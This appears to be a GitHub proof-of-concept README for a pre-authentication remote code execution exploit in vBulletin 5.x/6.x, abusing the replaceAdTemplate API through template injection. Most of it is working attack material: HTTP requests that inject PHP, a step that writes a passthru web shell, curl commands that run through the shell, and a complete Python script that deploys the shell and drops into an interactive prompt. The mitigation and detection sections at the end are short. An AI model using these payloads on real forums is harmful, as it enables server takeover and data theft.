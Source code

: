 
# vBulletin RCE 2025 replaceAdTemplate Remote Code Execution POC

**Author:** Chirag Artani
**CVE:** N/A (N-Day vulnerability)
**Affected Versions:** vBulletin 5.x and 6.x running on PHP 8.1+
**Severity:** Critical (Pre-authentication RCE)

## Vulnerability Overview

This vulnerability exploits a combination of two security flaws in vBulletin[^1]:

1. **PHP Reflection API Misuse**: vBulletin's API controller allows calling `protected` methods via `ReflectionMethod::invoke()` when running on PHP 8.1+
2. **Template Engine Code Injection**: The template parser can be bypassed using variable function calls to execute arbitrary PHP code

The exploit chain targets the `vB_Api_Ad::replaceAdTemplate()` protected method to inject malicious templates that execute PHP code through vBulletin's template conditionals (`<vb:if>` tags)[^1].

## Technical Details

### **Root Cause Analysis**

The vulnerability stems from changes in PHP 8.1 that allow `protected` and `private` methods to be invoked via the Reflection API. vBulletin's API controller uses `is_callable()` to check method accessibility, but this function returns `true` even for `protected` methods, allowing execution to continue to `ReflectionMethod::invokeArgs()`[^1].

The `replaceAdTemplate()` method accepts user-controlled template content that gets processed by vBulletin's template engine. By using variable function calls (e.g., `"function_name"(args)`), attackers can bypass the template parser's security regex checks and execute arbitrary PHP functions[^1].

## Proof of Concept

### **Step 1: File Write Operation**

Create a simple text file to verify code execution:

```http
POST /ajax/api/ad/replaceAdTemplate HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 153

routestring=ajax/api/ad/replaceAdTemplate&styleid=1&location=3444&template=<vb:if condition='"file_put_contents"("hello.txt", "Hello World!")'></vb:if>
```


### **Step 2: Directory Listing Verification**

Confirm file creation and explore the web directory:

```http
POST /ajax/api/ad/replaceAdTemplate HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 127

routestring=ajax/api/ad/replaceAdTemplate&styleid=1&location=3444&template=<vb:if condition='"print_r"("glob"("*"))'></vb:if>
```

**Expected Response:**

```
Array
(
    [^0] => LICENSE
    [^1] => ava
    [^2] => config.php
    [^3] => config.php.bkp
    [^4] => core
    [^5] => customavatars
    [^6] => customgroupicons
    [^7] => customprofilepics
    [^8] => favicon.ico
    [^9] => fonts
    [^10] => hello.txt
    [^11] => htaccess.txt
    [^12] => images
    [^13] => includes
    [^14] => index.php
    [^15] => js
    [^16] => logs
    [^17] => ocp.php
    [^18] => opcache-gui.php
    [^19] => opcache.php
    [^20] => signaturepics
    [^21] => useralbums
    [^22] => userfiles
    [^23] => web.config
)
```


### **Step 3: Web Shell Deployment**

Deploy a persistent web shell for command execution:

```http
POST /ajax/api/ad/replaceAdTemplate HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 189

routestring=ajax/api/ad/replaceAdTemplate&styleid=1&location=3444&template=<vb:if condition='"file_put_contents"("shell.php", "<?php if(isset($_POST[\"cmd\"])) { echo \"<pre>\"; passthru($_POST[\"cmd\"]); echo \"</pre>\"; } ?>")'></vb:if>
```


### **Step 4: Command Execution**

Execute system commands through the deployed web shell:

```bash
curl -X POST http://target.com/shell.php -d "cmd=id"
curl -X POST http://target.com/shell.php -d "cmd=whoami"
curl -X POST http://target.com/shell.php -d "cmd=ls -la"
```


## Automated Exploitation Script

```python
#!/usr/bin/env python3
"""
vBulletin replaceAdTemplate RCE Exploit
Author: Chirag Artani
"""

import requests
import sys
import urllib.parse

def exploit_vbulletin(target_url):
    print("[+] vBulletin replaceAdTemplate RCE Exploit")
    print(f"[+] Target: {target_url}")
    
    # Step 1: Deploy web shell
    shell_payload = '<?php if(isset($_POST["cmd"])) { echo "<pre>"; passthru($_POST["cmd"]); echo "</pre>"; } ?>'
    template_payload = f'<vb:if condition=\'"file_put_contents"("rce.php", "{shell_payload}")\' ></vb:if>'
    
    data = {
        'routestring': 'ajax/api/ad/replaceAdTemplate',
        'styleid': '1',
        'location': '3444',
        'template': template_payload
    }
    
    try:
        response = requests.post(f"{target_url}/ajax/api/ad/replaceAdTemplate", data=data, timeout=10)
        print(f"[+] Shell deployment response: {response.status_code}")
        
        # Step 2: Test shell access
        shell_url = f"{target_url}/rce.php"
        test_response = requests.post(shell_url, data={'cmd': 'id'}, timeout=10)
        
        if test_response.status_code == 200 and 'uid=' in test_response.text:
            print(f"[+] Shell successfully deployed at: {shell_url}")
            print(f"[+] Test command output:\n{test_response.text}")
            
            # Interactive shell
            while True:
                cmd = input("vBulletin-shell# ")
                if cmd.lower() in ['exit', 'quit']:
                    break
                
                cmd_response = requests.post(shell_url, data={'cmd': cmd}, timeout=10)
                print(cmd_response.text)
                
        else:
            print("[-] Shell deployment failed")
            
    except requests.exceptions.RequestException as e:
        print(f"[-] Request failed: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 vbulletin_rce.py <target_url>")
        print("Example: python3 vbulletin_rce.py http://target.com")
        sys.exit(1)
    
    target = sys.argv[^1].rstrip('/')
    exploit_vbulletin(target)
```


## Mitigation

1. **Immediate Actions:**
    - Update vBulletin to the latest patched version
    - Implement Web Application Firewall (WAF) rules to block malicious template injection attempts
    - Monitor for suspicious API calls to `replaceAdTemplate`
2. **Long-term Security:**
    - Regular security audits of custom API endpoints
    - Implement proper input validation and sanitization
    - Use allowlists instead of denylists for template validation
    - Consider running vBulletin with restricted PHP functions using `disable_functions`

## Detection

Look for the following indicators in web server logs:

- POST requests to `/ajax/api/ad/replaceAdTemplate`
- Template parameters containing `<vb:if condition=` with function calls
- Unusual file creation in web directories
- Suspicious PHP function calls in template content

This vulnerability demonstrates the critical importance of proper access control implementation and secure template processing in web applications[^1].

<div style="text-align: center">⁂</div>

[^1]: https://karmainsecurity.com/dont-call-that-protected-method-vbulletin-rce

[^2]: https://unit42.paloaltonetworks.com/exploits-in-the-wild-for-vbulletin-pre-auth-rce-vulnerability-cve-2019-16759/

[^3]: https://www.authentic8.com/blog/vbulletin-5-0day-from-imperfect-patch

[^4]: https://community.f5.com/kb/technicalarticles/vbulletin-pre-authentication-–-remote-code-execution-cve-2019-16759/283751

[^5]: https://unit42.paloaltonetworks.com/cve-2020-17496/

[^6]: https://x.com/Dinosn/status/1926835589111791894

[^7]: https://cloud.projectdiscovery.io/?template=CVE-2025-24813

[^8]: https://www.sentinelone.com/blog/vbulletin-cve-2023-25135/

[^9]: https://www.exploit-db.com/exploits/38629

[^10]: https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/vbulletin-remote-code-execution-cve-2020-7373/
